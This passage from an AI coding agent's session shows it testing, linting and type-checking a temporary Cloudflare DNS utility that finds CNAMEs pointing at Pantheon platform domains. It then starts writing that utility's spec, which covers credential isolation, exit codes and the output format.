json.loads((tmp_path / fpc.OUTPUT_FILE).read_text())\n    assert list(written) == [\"a.example.edu\"]\n    err = capsys.readouterr().err\n    assert \"ATTENTION: something worth seeing\" in err\n    assert \"Wrote 1 platform-domain CNAMEs (1 DNS-only\" in err\n    assert \"from 4 zones in 1 account(s)\" in err\n\n\ndef test_main_says_so_when_nothing_matched(fpc, tmp_path, monkeypatch, capsys):\n    monkeypatch.chdir(tmp_path)\n    monkeypatch.setattr(fpc, \"cloudflare_client\", lambda config_path: object())\n    monkeypatch.setattr(fpc, \"fetch_platform_cnames\",\n                        lambda client, verbose=False: ({}, [], 4, 1))\n    assert fpc.main([]) == 0\n    assert json.loads((tmp_path / fpc.OUTPUT_FILE).read_text()) == {}\n    assert \"no platform-domain CNAMEs found in 4 zones\" in capsys.readouterr().err\n\n\ndef test_main_reports_a_startup_error_as_exit_2(fpc, tmp_path, monkeypatch, capsys):\n    monkeypatch.chdir(tmp_path)\n    assert fpc.main([\"-c\", str(tmp_path / \"nope.toml\")]) == 2\n    assert \"ERROR: cannot read\" in capsys.readouterr().err\n\n\ndef test_main_reports_an_interrupt_as_exit_130(fpc, tmp_path, monkeypatch, capsys):\n    monkeypatch.chdir(tmp_path)\n\n    def interrupt(config_path):\n        raise KeyboardInterrupt\n\n    monkeypatch.setattr(fpc, \"cloudflare_client\", interrupt)\n    assert fpc.main([]) == 130\n    assert \"INTERRUPTED\" in capsys.readouterr().err\n\n\ndef test_main_names_an_unwritable_output_file_instead_of_crashing(fpc, tmp_path, monkeypatch,\n                                                                  capsys):\n    \"\"\"An OSError here lands AFTER the whole multi-minute walk; it escaped as a raw traceback at\n    exit 1 until it was named (adversarial review, finding 3).\"\"\"\n    monkeypatch.chdir(tmp_path)\n    monkeypatch.setattr(fpc, \"cloudflare_client\", lambda config_path: object())\n    monkeypatch.setattr(fpc, \"fetch_platform_cnames\",\n                        lambda client, verbose=False: ({}, [], 1, 1))\n\n    def refuse(path, data):\n        raise OSError(28, \"No space left on device\")\n\n    monkeypatch.setattr(fpc, \"write_json_atomic\", refuse)\n    assert fpc.main([]) == 2\n    assert \"cannot write\" in capsys.readouterr().err\n"
}
```

### ↳ Tool result

```
File created successfully at: /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/test_find_platform_domains_cloudflare.py (file state is current in your context — no need to Read it back)
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && mkdir -p probe/tests/unit && cp find-platform-domains-cloudflare probe/ && ln -sf find-platform-domains-cloudflare probe/find-platform-domains-cloudflare.py && cp test_find_platform_domains_cloudflare.py probe/tests/unit/ && cd probe && source /workspace/.venv/bin/activate && python -m pytest tests/unit/test_find_platform_domains_cloudflare.py -q -p no:cacheprovider 2>&1 | tail -25",
  "description": "Run the verified test suite in scratchpad"
}
```

### ↳ Tool result

```
    def test_collect_entries_serializes_a_pydantic_settings_model(fpc):
        """record.settings is a pydantic model; json.dump cannot serialize one."""
        from cloudflare.types.dns.cname_record import Settings
        entries, _ = fpc.collect_entries(
            [("zone-a", record(settings=Settings(flatten_cname=True)))])
        settings = entries["www.example.edu"]["settings"]
>       assert settings == {"flatten_cname": True}
E       AssertionError: assert {'flatten_cna...6_only': None} == {'flatten_cname': True}
E         
E         Omitting 1 identical items, use -vv to show
E         Left contains 2 more items:
E         {'ipv4_only': None, 'ipv6_only': None}
E         Use -v to get more diff

tests/unit/test_find_platform_domains_cloudflare.py:227: AssertionError
=============================== warnings summary ===============================
tests/unit/test_find_platform_domains_cloudflare.py:20
  /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/probe/tests/unit/test_find_platform_domains_cloudflare.py:20: PytestUnknownMarkWarning: Unknown pytest.mark.unit - is this a typo?  You can register custom marks to avoid this warning - for details, see https://docs.pytest.org/en/stable/how-to/mark.html
    pytestmark = pytest.mark.unit

-- Docs: https://docs.pytest.org/en/stable/how-to/capture-warnings.html
=========================== short test summary info ============================
FAILED tests/unit/test_find_platform_domains_cloudflare.py::test_collect_entries_serializes_a_pydantic_settings_model
1 failed, 49 passed, 1 warning in 0.30s
Shell cwd was reset to /workspace
```

## Assistant

One real failure — caught by actually running it. `Settings.model_dump()` returns three fields (`ipv4_only`/`ipv6_only` too), so my assertion was wrong, not the code. Pinning the exact dict would also pin the SDK's model shape, which is brittle:

### ⚙ Tool call: `Edit`

```json
{
  "replace_all": false,
  "file_path": "/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/test_find_platform_domains_cloudflare.py",
  "old_string": "    settings = entries[\"www.example.edu\"][\"settings\"]\n    assert settings == {\"flatten_cname\": True}\n    json.dumps(entries)   # the point: the entry must survive the real serializer",
  "new_string": "    settings = entries[\"www.example.edu\"][\"settings\"]\n    assert settings[\"flatten_cname\"] is True\n    # Asserting the whole dict would pin the SDK's model shape (it also carries ipv4_only /\n    # ipv6_only); what matters here is the value round-tripping and the entry staying\n    # serializable, which a live pydantic model would not be.\n    json.dumps(entries)"
}
```

### ↳ Tool result

```
The file /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/test_find_platform_domains_cloudflare.py has been updated successfully. (file state is current in your context — no need to Read it back)
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && cp test_find_platform_domains_cloudflare.py probe/tests/unit/ && cd probe && source /workspace/.venv/bin/activate && python -m pytest tests/unit/test_find_platform_domains_cloudflare.py -q -p no:cacheprovider 2>&1 | tail -6; echo \"=== per-task cumulative counts:\"; python -m pytest tests/unit/test_find_platform_domains_cloudflare.py -q -p no:cacheprovider --collect-only 2>/dev/null | grep -c \"::\"",
  "description": "Re-run tests and count"
}
```

### ↳ Tool result

```
tests/unit/test_find_platform_domains_cloudflare.py:20
  /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/probe/tests/unit/test_find_platform_domains_cloudflare.py:20: PytestUnknownMarkWarning: Unknown pytest.mark.unit - is this a typo?  You can register custom marks to avoid this warning - for details, see https://docs.pytest.org/en/stable/how-to/mark.html
    pytestmark = pytest.mark.unit

-- Docs: https://docs.pytest.org/en/stable/how-to/capture-warnings.html
50 passed, 1 warning in 0.26s
=== per-task cumulative counts:
50
Shell cwd was reset to /workspace
```

## Assistant

50 pass. Now the lint and type gates against the real repo config:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/probe && cp /workspace/pyproject.toml . 2>/dev/null; source /workspace/.venv/bin/activate; echo \"=== RUFF (repo config, select=ALL):\"; uvx ruff@0.15.22 check --config /workspace/pyproject.toml find-platform-domains-cloudflare 2>&1 | tail -20",
  "description": "Ruff check the new script"
}
```

### ↳ Tool result

```
=== RUFF (repo config, select=ALL):
    |         ^^^^^
408 |         return 2
409 |     except KeyboardInterrupt:
    |
help: Remove `print`

T201 `print` found
   --> find-platform-domains-cloudflare:411:9
    |
409 |     except KeyboardInterrupt:
410 |         # The write is atomic, so the file is either untouched or complete -- never half-written.
411 |         print(f"INTERRUPTED: {OUTPUT_FILE} is either unchanged or fully written.",
    |         ^^^^^
412 |               file=sys.stderr, flush=True)
413 |         return 130
    |
help: Remove `print`

Found 7 errors.
No fixes available (6 hidden fixes can be enabled with the `--unsafe-fixes` option).
Shell cwd was reset to /workspace
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/probe && source /workspace/.venv/bin/activate\necho \"=== rule codes (no ignore entry yet):\"\nuvx ruff@0.15.22 check --config /workspace/pyproject.toml --output-format concise find-platform-domains-cloudflare 2>&1 | grep -oE '\\b[A-Z]+[0-9]+\\b' | sort | uniq -c\necho \"=== now WITH the per-file-ignores entry added:\"\npython - <<'PY'\nimport re, pathlib\np = pathlib.Path(\"pyproject.toml\"); t = p.read_text()\nt = t.replace('\"development/finalize-session.py\" = [\"T201\"]',\n              '\"find-platform-domains-cloudflare\" = [\"T201\"]\\n\"development/finalize-session.py\" = [\"T201\"]')\np.write_text(t)\nPY\nuvx ruff@0.15.22 check --config ./pyproject.toml find-platform-domains-cloudflare\necho \"=== PYRIGHT standard:\"\nuvx pyright@1.1.411 --outputjson --level error find-platform-domains-cloudflare.py 2>/dev/null | python -c \"import json,sys; d=json.load(sys.stdin); print(d['summary']); [print(x['rule'], x['message'][:100], x['range']['start']) for x in d['generalDiagnostics']]\"",
  "description": "Confirm only T201 fires and pyright is clean"
}
```

### ↳ Tool result

```
=== rule codes (no ignore entry yet):
      1 EXE001
      6 T201
=== now WITH the per-file-ignores entry added:
EXE001 Shebang is present but file is not executable
 --> find-platform-domains-cloudflare:1:1
  |
1 | #!/usr/bin/env python
  | ^^^^^^^^^^^^^^^^^^^^^
2 | """Write every Cloudflare CNAME record pointing at a Pantheon platform domain to JSON.
  |

Found 1 error.
=== PYRIGHT standard:
{'filesAnalyzed': 1, 'errorCount': 0, 'warningCount': 0, 'informationCount': 0, 'timeInSec': 0.979}
Shell cwd was reset to /workspace
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/probe && chmod +x find-platform-domains-cloudflare && source /workspace/.venv/bin/activate && uvx ruff@0.15.22 check --config ./pyproject.toml find-platform-domains-cloudflare && echo \"--- and with the ignore entry REMOVED (proving the check can go red):\" && uvx ruff@0.15.22 check --config /workspace/pyproject.toml --output-format concise find-platform-domains-cloudflare 2>&1 | head -3",
  "description": "Confirm clean when executable, and red without the entry"
}
```

### ↳ Tool result

```
All checks passed!
--- and with the ignore entry REMOVED (proving the check can go red):
find-platform-domains-cloudflare:311:17: T201 `print` found
find-platform-domains-cloudflare:393:13: T201 `print` found
find-platform-domains-cloudflare:400:9: T201 `print` found
Shell cwd was reset to /workspace
```

## Assistant

Everything verified: **50 tests pass**, ruff clean (and **6× T201 without** the per-file-ignores entry — so finding #10's replacement check can genuinely go red), pyright standard **0 errors, 0 warnings**. Now rewriting the spec with all 15 findings addressed.

### ⚙ Tool call: `Write`

```json
{
  "file_path": "/workspace/development/2026-07-30-platform-domain-util2/SPEC.md",
  "content": "# `find-platform-domains-cloudflare` — Spec & Implementation Plan\n\n> **For agentic workers:** REQUIRED SUB-SKILL: Use `superpowers:subagent-driven-development`\n> (recommended) or `superpowers:executing-plans` to implement this plan task-by-task. Steps use\n> checkbox (`- [ ]`) syntax for tracking. Dispatch every code-touching subagent as\n> **`psh-implementer`** and every reviewer as **`psh-reviewer`** (CLAUDE.md § Dispatching\n> subagents).\n>\n> **Commit authorization.** CLAUDE.md § Other/General says *\"Commit only when asked.\"* The\n> operator asked, for this plan specifically, on 2026-07-30: the `git commit` step ending each\n> task below **is** that authorization. It does not extend to branching, pushing, or any commit\n> outside these tasks.\n>\n> **One structural STOP exists** — Task 6 Step 2, before anything touches production Cloudflare.\n> It is not a checklist item; it is a hard halt with an exact-phrase unlock.\n\n**Goal:** A standalone, deletable utility that writes every Cloudflare DNS **CNAME record whose\ntarget ends in `.pantheonsite.io`** — proxied or not, in every zone of every account the\ncredentials can see — to `./platform-domains-cloudflare.json`, regenerated in full on every run.\n\n**Architecture:** One executable script at the repo root, `find-platform-domains-cloudflare`,\nimporting nothing from `psh/`, `check/`, `plugin/`, or `script_context`. It re-implements (by\ncopying, not importing) the three things it needs from the main program: the `[Cloudflare]`\ncredential read, the account → zone → DNS-record walk from `plugin/cloudflare/fqdns.py`, and that\nmodule's atomic JSON write. Deletion after Pantheon's CDN migration is `git rm` of the script, its\n`.py` symlink and its test file, plus five one-line tooling entries (§11).\n\n**Tech Stack:** Python 3.12+, the `cloudflare` SDK (already declared under this project's\n`cloudflare` extra), `tomllib`, `argparse`. No new dependencies. Tests: pytest, `unit` tier,\nfully offline.\n\n## Global Constraints\n\n- **Standalone.** The script imports nothing from `psh/`, `check/`, `plugin/`, or\n  `script_context`. Copied code lives *in* the script, not in a shared module — deletion must stay\n  a `git rm`.\n- **Temporary.** Delete after Pantheon completes the Fastly → Pantheon-Cloudflare CDN migration.\n  Every file the script touches carries a comment saying so and pointing at §11.\n- **Output path:** `./platform-domains-cloudflare.json`, a module-level constant. No `--output`\n  flag.\n- **Platform suffix:** `.pantheonsite.io` (with the leading dot), a module-level constant.\n- **Always regenerate.** No existence check, no staleness check, no load-existing path. Every run\n  writes the file, including a run that matched nothing (which writes `{}`).\n- **Efficiency is explicitly not a goal** (PROMPT). Prefer the simplest correct code at every fork.\n- **Measured SDK baseline: `cloudflare` 5.4.0.** Several behaviors this spec relies on (R2a, R3's\n  pagination) are SDK-internal and were measured, not assumed. `pyproject.toml` declares the\n  dependency **unpinned** as `\"cloudflare\"`, so an SDK upgrade is the one external change that can\n  invalidate them. The tests in §7 are written to go red if it does.\n- **Lint/type gates apply.** `./run-tests` runs ruff (`select = ALL` minus the ignore list) and\n  pyright standard mode; both must pass. The script is added to pyright's `include` (§9).\n- **House style:** 4-space indent, `\"\"\"docstrings\"\"\"` explaining *why*, `# --` comment banners,\n  `allow_abbrev=False` on the parser.\n\n## Requirement vocabulary\n\n- **MUST** / **MUST NOT** / **NEVER** — a violation is a defect; the implementation is wrong.\n- **SHOULD** — do it unless there is a stated reason not to, recorded in the code.\n- **MAY** — genuinely optional.\n\n**NEVER-block (tests are load-bearing):** a test in §7 **MUST NOT** be deleted, skipped,\n`xfail`ed, or weakened to make a change pass. If a test goes red, the change is wrong until proven\notherwise. **NEVER** refresh an assertion to match new output without first establishing that the\nnew output is correct. **NEVER** print an API response body, at any verbosity, and never include\none in an error message (see R6/§6).\n\n## Glossary\n\n| Term | Meaning in this document |\n|---|---|\n| **platform domain** | A Pantheon-provided hostname ending in `.pantheonsite.io` (e.g. `live-umich-example1.pantheonsite.io`). The leading dot is part of the constant. |\n| **custom domain** | A hostname an institution owns that points at a platform domain. |\n| **entry** | One key/value pair in the output file: an FQDN mapped to `{zone_id, origins, record_id, proxied, ttl, comment, tags, settings}`. |\n| **origin** | The raw `content` of a matching CNAME record — the platform domain it targets. Plural because a name can match more than once. |\n| **fold** | `collect_entries`, the pure function turning `(zone_id, record)` pairs into entries + warnings. |\n| **marker** | A `<{ … }` config substitution, e.g. `<{secret env CLOUDFLARE_API_KEY}`. The trailing `>` seen in sample config is decorative and not part of the syntax. |\n| **the walk** | `fetch_platform_cnames`: accounts → zones → DNS records. |\n| **truncation** | A record list that silently returns fewer records than the zone holds. R3's `total_count` cross-check exists for exactly this. |\n| **DNS-only** | A record with `proxied: false`. Invisible to `fqdns.json`, which is built with `proxied=True`. |\n| **the sibling** | `find-platform-domains-dns`, the public-DNS counterpart utility. |\n\n---\n\n## 1. What this is and why\n\nPart of the Pantheon CDN migration. Custom domains that still reach Pantheon's legacy CDN must be\nrewritten to Pantheon's new records. The sibling utility `find-platform-domains-dns` finds them\nfrom **public DNS**. That is blind to a **Cloudflare-proxied** record, whose CNAME target is\ninvisible outside Cloudflare — and `fqdns.json`, the main program's Cloudflare data source, is\nbuilt with `proxied=True` and so is blind to every **DNS-only** record.\n\nThis script closes the second gap: it inspects **all** records in **all** zones and reports the\nCNAMEs pointing at a Pantheon platform domain, whatever their proxy status.\n\nIts output is the input to the record-rewrite work described in `research.md` in this folder.\n\n## 2. Normative behavior\n\n### 2.0 — The pipeline (PD#8)\n\n```\n argv ──▶ build_arg_parser ──▶ options{config, verbose}\n                                    │\n                                    ▼\n                     cloudflare_client(config_path)                      ERROR FUNNEL\n                     ├─ tomllib.load ────────── OSError/TOMLDecodeError ─────┐\n                     ├─ [Cloudflare] present? ── missing ────────────────────┤\n                     ├─ value(key) ───────────── non-str ────────────────────┤\n                     │    └─ resolve_config_value                            │\n                     │         └─ resolve_env_marker ── unset / unbalanced ──┤\n                     │                                  / non-env form       │\n                     └─ build_client  (pins all four credential fields)      │\n                                    │                                        │\n                                    ▼                                        │\n                     fetch_platform_cnames(client)                           │\n                     ├─ accounts.list + zones.list ── CloudflareError ───────┤\n                     ├─ zero zones ─────────────────────────────────────────┤\n                     │                                                       │\n                     │   ┌─ per zone (lazy generator) ───────────────────┐   │\n                     │   │  page     = dns.records.list(zone_id)         │   │\n                     │   │  expected = total_count  (or None)            │   │\n                     │   │  for record in page:  ─── yields ───┐         │   │\n                     │   │      seen += 1                      │         │   │\n                     │   │  seen != expected ── truncated ─────┼─────────┼───┤\n                     │   └─────────────────────────────────────┼─────────┘   │\n                     │                                         ▼             │\n                     └──────────────────────▶ collect_entries(pairs)         │\n                                              │ CNAME? platform target?      │\n                                              │ first-record-wins            │\n                                              ▼                              │\n                                       (entries, warnings)                   │\n                                              │                              │\n                        warnings ──▶ stderr ◀─┤                              │\n                                              ▼                              │\n                              write_json_atomic(OUTPUT_FILE)                 │\n                                    └── OSError ─────────────────────────────┤\n                                              │                              │\n                        summary  ──▶ stderr ◀─┤                              │\n                        zero-match ATTENTION ─┤                              ▼\n                                              ▼                       StartupError\n                                          exit 0                            │\n                                                                            ▼\n                     KeyboardInterrupt ────────────────▶ exit 130         exit 2\n```\n\nEverything on the ERROR FUNNEL becomes a `StartupError`, is printed as one `ERROR:` line, and\nexits **2**. Nothing on it reaches exit 1 — see R6.\n\n### R1 — CLI\n\n```\nfind-platform-domains-cloudflare [-c CONFIG] [-v]\n```\n\n| Flag | Default | Meaning |\n|---|---|---|\n| `-c`, `--config` | `pantheon-sitehealth-emails.toml` | TOML file to read `[Cloudflare]` credentials from |\n| `-v`, `--verbose` | off | print each zone to stderr as it is scanned |\n\n`allow_abbrev=False` (house rule). There are no positional arguments. Verbosity is deliberately a\n**boolean**, not the main program's counted `-v/-vv/-vvv` — matching the sibling utility, and\nbecause R3's truncation cross-check is a hard abort rather than something an operator must spot in\nper-zone counts (§8.9 records the rejected alternative).\n\n### R2 — Credentials\n\nRead the `[Cloudflare]` table from the TOML with `tomllib`, then resolve `<{...}` substitution\nmarkers in the string values with a **copied mini-resolver** supporting exactly the `env` and\n`secret env` forms, with an optional trailing default:\n\n```\n<{env NAME}          <{env NAME DEFAULT}\n<{secret env NAME}   <{secret env NAME DEFAULT}\n```\n\n- Marker syntax is `<{` … `}`. The recognizing regex is copied verbatim from\n  `psh/configuration.py`: `re.compile(r\"<\\{(.*?)(?<!\\\\)}\")`.\n- Markers are substituted **inside** a value (`re.sub`), so `\"prefix<{env X}suffix\"` works,\n  matching `process_config()`.\n- Each credential value **MUST** be type-checked as a `str` *where it is read*. TOML is a typed\n  format, so `api_token = true` (an unquoted value — an ordinary typo) is a `bool`, which\n  `if api_token:` accepts and the SDK stringifies into `Authorization: Bearer True`. That is the\n  same confusing-401 failure the marker rule below exists to prevent, so the rule **MUST** apply\n  to both input shapes. *(This is the sibling spec's whole-branch review finding C1, same defect\n  class, applied here before it could ship.)*\n- A **non-`env`** substitution (e.g. `<{secret aws …}`) is a `StartupError` naming the config key\n  and saying what this script accepts. It is **not** silently passed through: a literal\n  `\"<{secret aws cloudflare/token}\"` sent as an API token would produce a confusing 401.\n- An **unbalanced quote** in a marker (`<{env FOO don't}`) makes `shlex` raise `ValueError`; that\n  **MUST** be converted to a `StartupError`. Left alone it escapes as a raw traceback at exit 1 —\n  a code R6 does not use.\n- An unset env var with no default is a `StartupError` naming the variable.\n- A non-string value passes through `resolve_config_value` untouched; only `str` values are\n  scanned. (After the type check above, only `None` ever reaches it.)\n\n**Deliberate divergence from the main engine, documented in the script:** the marker body is\ntokenized with `shlex.split()` (whitespace-splitting) rather than the engine's\n`list(shlex.shlex(expr, posix=True))` (which also splits on punctuation, turning\n`<{env FOO some-default}` into five tokens; the engine then scores 3 of 5 and reports *\"no match\nfound for configuration file value\"*). The two agree on every marker the main program can actually\nresolve; this one is marginally more permissive on defaults containing punctuation.\n\n`api_token` wins when present and truthy; otherwise both `email` and `api_key` are required.\nEither missing → `StartupError`. `enabled` is **not consulted** — the operator ran this script\ndeliberately, and refusing to run because a flag aimed at the main program is `false` would be a\nsurprise. The script says so in a comment.\n\n### R2a — Credential isolation (load-bearing; found by measurement)\n\nThe `cloudflare` SDK fills any credential argument left as `None` from the environment\n(`CLOUDFLARE_API_TOKEN`, `CLOUDFLARE_API_KEY`, `CLOUDFLARE_EMAIL`,\n`CLOUDFLARE_API_USER_SERVICE_KEY`). Ambient values then reach the wire by **two independent\nroutes**:\n\n1. `auth_headers` (`_client.py:1127`) returns the **first** of email → key → token →\n   user_service_key that is set, **and only that one**; and\n2. `default_headers` (`_client.py:1168`) *separately* adds `X-Auth-Key` / `X-Auth-Email` whenever\n   those attributes are not `None`.\n\nMeasured on cloudflare 5.4.0:\n\n```python\n>>> Cloudflare(api_token=\"tok-123\").api_email\n'…@umich.edu'          # from the ambient $CLOUDFLARE_EMAIL, never asked for\n# request headers, unpinned: {'x-auth-email': '…@umich.edu'}      <- token never sent\n# request headers, pinned:   {'authorization': 'Bearer tok-123'}\n```\n\nSo on a host where `CLOUDFLARE_EMAIL` is exported, a client built with an explicit `api_token=`\nauthenticates with `X-Auth-Email` **and nothing else**. The script **MUST** pin all four\ncredential fields after construction, nulling every one the config did not supply — which closes\n**both** routes, because both read these attributes at request-build time:\n\n```python\ndef build_client(**creds):\n    client = Cloudflare(**creds)\n    for field in (\"api_token\", \"api_key\", \"api_email\", \"user_service_key\"):\n        if field not in creds:\n            setattr(client, field, None)\n    return client\n```\n\nThe test for this **MUST** assert the *security property* (`client.auth_headers` and\n`client.default_headers` carry only the configured credential), **not** the attribute state that\nimplements it — an SDK that captured credentials at construction would leave attribute assertions\ngreen and the defect live.\n\n> **Out of scope, report to the operator:** `plugin/cloudflare/client.py`'s `build_client()` has\n> this same latent defect — `Cloudflare(api_token=api_token)` with no field pinning. Measured: not\n> live today only because U-M's config leaves `api_token` commented out and passes `api_email` +\n> `api_key` explicitly. Uncommenting `api_token` on a host with `CLOUDFLARE_EMAIL` exported would\n> silently authenticate as the wrong principal. Fixing it is a separate change to the main\n> program, not this script's job (§8.7).\n\n### R3 — The walk\n\n`client.accounts.list()` → per account `client.zones.list(account={\"id\": account.id})` → per zone\n`client.dns.records.list(zone_id=zone.id)`.\n\n- **No `proxied=` filter and no `type=` filter.** Every record in every zone is fetched and\n  inspected; the CNAME and suffix tests happen in this script. This is literally what \"consider\n  all DNS records in all Cloudflare zones\" asks for, and per the PROMPT no work goes into making\n  it faster. (If a run ever becomes painful, `type=\"CNAME\"` on the `list` call is the one-word\n  change — recorded here so a later reader does not have to rediscover it.)\n- **`dns.records.list()` returns a paginator, so one call is N HTTP requests.** Verified against\n  the installed SDK: `SyncV4PagePaginationArray.next_page_info` asks for `page = last + 1`\n  (`pagination.py:104`) and `BasePage.has_next_page` stops when a page comes back empty\n  (`_base_client.py:186`); `BaseSyncPage.__iter__` walks **every** page\n  (`_base_client.py:256`). This is page-number pagination, **not** the opaque-cursor shape that\n  produced the Pantheon API's silent \"returns page 1 again\" bug (CLAUDE.md records that one), so\n  the SDK's own loop is trusted to terminate.\n- **Truncation cross-check (MUST).** A truncated record list writes a **silently incomplete**\n  file — the exact failure mode the zero-zones guard exists to prevent. For each zone, read\n  Cloudflare's `total_count` from the first page and compare it against records actually seen; a\n  mismatch is a `StartupError` (exit 2), and **no file is written**. `V4PagePaginationArrayResultInfo`\n  declares only `page`/`per_page`, but its `model_config` is `extra=\"allow\"`, so `total_count`\n  survives as `model_extra` (verified). When it is **absent**, the check **MUST** no-op rather\n  than guess — it can never abort a healthy sweep.\n- Records are consumed through a **generator**, so the whole org's record set is never held in\n  memory at once — this is not an optimization, it is the shape that keeps the fold pure and the\n  API error handling in one place.\n- Any `cloudflare.CloudflareError` → `StartupError` (exit 2), rendered by `api_error_text()`,\n  which **NEVER** includes the response body (see R6).\n- **Zero zones is fatal** (copied from `fqdns.py`): with the scope missing, \"no zones\" and \"no\n  matching records\" produce an identical empty output file, and a silently-empty file is exactly\n  the failure mode this script must not have. The message names **both** `Account:Read` and\n  `DNS:Read` — an accounts list that comes back empty yields zero zones just as a missing\n  `DNS:Read` does.\n- Zero matching CNAMEs is **not** fatal — it writes `{}` and says so loudly on stderr.\n\n### R4 — The match\n\nA record is kept when **both** hold:\n\n1. `record.type == \"CNAME\"`, and\n2. `normalize(record.content).endswith(\".pantheonsite.io\")`\n\nwhere `normalize` is copied verbatim from `find-platform-domains-dns`: lowercase, strip\nwhitespace, strip the trailing root dot. Proxy status is **irrelevant to the match** — that is the\nentire point of this script versus `fqdns.json`.\n\nConsequences pinned in tests: `notpantheonsite.io` does not match (the constant carries the\nleading dot); the bare apex `pantheonsite.io` does not match; an **A** record whose content reads\nas a platform domain does not match; a **DNS-only** CNAME **does** match.\n\n### R5 — Output format\n\n`./platform-domains-cloudflare.json`, JSON object keyed by FQDN, `indent=4`, `sort_keys=True`,\ntrailing newline — the same serialization `write_fqdns_atomic` uses.\n\n```json\n{\n    \"example1.cdn-dev.it.umich.edu\": {\n        \"comment\": \"migrated 2026-07\",\n        \"origins\": [\n            \"live-umich-example1.pantheonsite.io\"\n        ],\n        \"proxied\": true,\n        \"record_id\": \"9f0e1b2c3d4e5f60718293a4b5c6d7e8\",\n        \"settings\": {\n            \"flatten_cname\": false,\n            \"ipv4_only\": null,\n            \"ipv6_only\": null\n        },\n        \"tags\": [],\n        \"ttl\": 1,\n        \"zone_id\": \"abc123def456\"\n    }\n}\n```\n\n- `zone_id` + `origins` are `fqdns.json`'s fields, unchanged in name and type.\n- `record_id`, `proxied`, `ttl`, `comment`, `tags`, `settings` are **added**. `research.md` in this\n  folder shows the downstream batch rewrite needs the record id for `deletes` and treats `proxied`\n  as load-bearing on re-creation; its reverse direction hardcodes `\"ttl\": 1` and would otherwise\n  silently discard an explicit TTL, operator comments, tags, and `settings.flatten_cname` — data\n  loss caused by an omission in *this* file's contract.\n- **`settings` MUST be `.model_dump(mode=\"json\")`ed.** It is a pydantic model\n  (`cloudflare.types.dns.cname_record.Settings`); `json.dump` cannot serialize one. Verified: an\n  un-dumped entry raises `TypeError` at write time, after the whole walk.\n- **First-record-wins** for every scalar (`zone_id`, `record_id`, `proxied`, `ttl`, `comment`,\n  `tags`, `settings`), mirroring how `fqdns.json` already keeps only the first `zone_id`.\n  `origins` accumulates, so a name matching more than once is visible in the file as well as in\n  the warning.\n- Keys are `normalize()`d; `origins` entries are the **raw** `record.content` as Cloudflare\n  returned it (`fqdns.py` stores raw content, and the raw string is what a rewriter compares\n  against).\n\n### R5a — Divergences from the PROMPT, stated as divergences\n\nPROMPT.md line 8 asks for *\"the same fields/stucture as `./fqdns.json`\"*. Two deliberate\ndepartures, both approved by the operator during review:\n\n| Departure | Why | Approved |\n|---|---|---|\n| Six extra value fields (`record_id`, `proxied`, `ttl`, `comment`, `tags`, `settings`) | Without them the downstream rewrite must re-list every zone, and its reverse direction loses TTL/comment/tags/flatten_cname | 2026-07-30 |\n| Keys are `normalize()`d; `fqdns.py` keys by **raw** `record.name` | Case/trailing-dot stability. **Consequence:** any comparison against `fqdns.json` keys must normalize both sides — Task 6 Step 4 does, and would otherwise report phantom \"missing\" entries | 2026-07-30 |\n\n### R6 — Exit codes and streams\n\n| Code | Meaning |\n|---|---|\n| 0 | the output file was written (including an empty `{}`) |\n| 2 | could not complete: config unreadable / not TOML, no `[Cloudflare]` section, a non-`str` credential, an unresolvable / malformed / unsupported substitution, missing credentials, any `cloudflare.CloudflareError`, zero zones, **a truncated record list**, or an `OSError` writing the output file |\n| 130 | interrupted (`KeyboardInterrupt`) |\n| 120 | **not produced by this program.** The interpreter's shutdown flush of a doomed **stderr** exits 120 over the return value. Accepted and not guarded — see §8.4. Listed here so the table is exhaustive. |\n\nThere is deliberately **no exit 1**. The sibling reserves 1 for \"completed with indeterminates\"\nbecause a DNS lookup can be indeterminate; a Cloudflare list call either returns or raises, so\nthis script has no partial-answer state. **Holding that line takes explicit work**, and two\nmeasured paths escaped it in the first draft: an `OSError` from the write (which lands *after* the\nwhole multi-minute walk and discarded all of it) and a `ValueError` from `shlex.split` on an\nunbalanced quote. Both are now named conversions to `StartupError`, both tested. *(Adversarial\nreview, finding 3 — see §13.)*\n\n**stdout carries only argparse's usage/`--help` text.** All operator output — warnings, `-v`\nper-zone lines, the summary, error messages — goes to stderr; the *result* is the file.\nConsequently the doomed-stream detach guards and the exit-120 taxonomy that the sibling carries\nare **not** copied (§8.4).\n\n**NEVER print an API response body.** `APIStatusError.__str__` is `\"Error code: NNN - {body}\"`; a\nDNS-record body echoes record contents and an auth-failure body can echo the credential.\n`api_error_text(e)` renders `\"{ClassName}: HTTP {status}\"` when a status code is present, else\n`\"{ClassName}: {e}\"`.\n\nThe summary line, on stderr, on success:\n\n```\nWrote 12 platform-domain CNAMEs (3 DNS-only, invisible to fqdns.json) from 43 zones in 2 account(s) to platform-domains-cloudflare.json.\n```\n\nThe **DNS-only count is part of the summary**, not something an operator computes afterwards — it\nis the number that says how much this script found that `fqdns.json` structurally cannot.\n\n### R7 — Duplicate-name warnings\n\nWhen a name already in the map is matched again, print to stderr — **every** duplicate, not only\na cross-zone one. The file keeps one `record_id` of two and feeds a *destructive* rewrite, so\nsilence is the wrong default even for the same-zone case, which the Cloudflare API should make\nunreachable (a name may hold at most one CNAME) and which is therefore a signal worth seeing.\n\n```\nATTENTION: <name> has a platform-domain CNAME in more than one Cloudflare zone (<first> and <second>); keeping the first zone_id/record_id\nATTENTION: <name> has more than one 